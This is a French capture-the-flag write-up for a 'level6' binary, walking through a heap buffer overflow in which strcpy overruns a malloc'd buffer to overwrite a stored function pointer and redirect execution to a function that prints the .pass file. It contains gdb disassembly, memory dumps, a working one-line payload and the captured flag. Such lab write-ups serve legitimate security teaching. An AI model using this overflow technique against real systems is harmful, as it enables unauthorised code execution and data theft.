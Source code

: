 # Malloc Buffer Exploitation

En décompilant l'exécutable, on remarque qu'il :
1. alloue de la mémoire avec `malloc`.
2. y stocke l'adresse de la fonction `m` dans une des allocations.
3. appelle la fonction `m` grâce à l'adresse stockée dans l'allocation mémoire.

On remarque aussi la présence d'une fonction `n` qui affiche le contenu du fichier `.pass` à l'aide de la fonction `cat`. L'objectif ici est clair, remplacer l'adresse de la fonction `m`, contenue à l'adresse allouée par `malloc`, par l'adresse de la fonction `n`. Ainsi, nous serons en mesure d'afficher le fichier `.pass`.

Pour commencer, nous allons voir où `malloc` alloue de l'espace dasn la mémoire. Pour illustrer nos explications, nous allons lancer notre exécutable avec `gdb` en prenant en argument une chaine de caractères contenant `64` caractères `A`, soit la taille en octets allouée par le premier `malloc`.
```
> gdb --args level6 "AAAA"
[...]
> (gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
```
On sait que la fonction `malloc` nous retourne un pointeur vers l'emplacement alloué. Nous allons donc `break` sur chaque instruciton suivant un appel à `malloc`, soit `+21` et `+37`.
```
> (gdb) b *0x08048491
Breakpoint 1 at 0x8048491
> (gdb) b *0x080484a1
Breakpoint 2 at 0x80484a1
```
On `run`, puis on imprime `eax` pour afficher l'adresse retourné par `malloc`.
```
> (gdb) r
Starting program: /home/user/level6/level6 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048491 in main ()
> (gdb) x $eax
0x804a008:	0x00000000
> (gdb) c
Continuing.

Breakpoint 2, 0x080484a1 in main ()
> (gdb) x $eax
0x804a050:	0x00000000
```
Grace à `gdb`, on connait donc l'emplacement mémoire où sera copié notre premier arguement, et l'adresse où sera stockée l'adresse de `m`.

**Adresse allouée de la copie du premier argument**
```
0x804a008
```
**Adresse allouée pour la fonction `m`**
```
0x804a050
```

Pour le démontrer, on peut afficher la stack après l'appel à `strcpy`. On `break` donc à `+78` et on récupère au préalable l'adresse de la fonction `m` pour la visualiser dans la stack.
```
> (gdb) x m
0x8048468 <m>:	0x83e58955
> (gdb) b *0x080484ca
Breakpoint 3 at 0x80484ca
> (gdb) c
Continuing.

Breakpoint 3, 0x080484ca in main ()
> (gdb) x/20wx 0x804a008
0x804a008:	0x41414141	0x41414141	0x41414141	0x41414141
            ^
            début de la chaine
            de caractères
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a048:	0x00000000	0x00000011	0x08048468	0x00000000
                                    ^
                                    adresse de m
```
On comprend avec cette visualiation, qu'en copiant un certain nombre de caractères dans notre permier espace alloué par `malloc`, nous serons en mesure d'écraser l'adresse de `m`, pour la remplacer par l'adresse de `n`. Ici, nous aurons besoin de `72` caractères pour remplir notre espace alloué juste avant l'emplacement de l'adresse de `m`.

On peut déterminer l'adresse de `n` simplement avec la commande suivante :
```
> (gdb) p n
$1 = {<text variable, no debug info>} 0x8048454 <n>
```
L'adresse de `n` est donc `0x8048454`. En `little-endian`, on obtient `\x54\x84\x04\x08`.

On peut donc exécuter la commande suivante :
```
> ./level6 `python -c 'print "A"*72 + "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
Le programme fait maintenant appel à la fonction `n` qui imprime le contenu du fichier `.pass`.
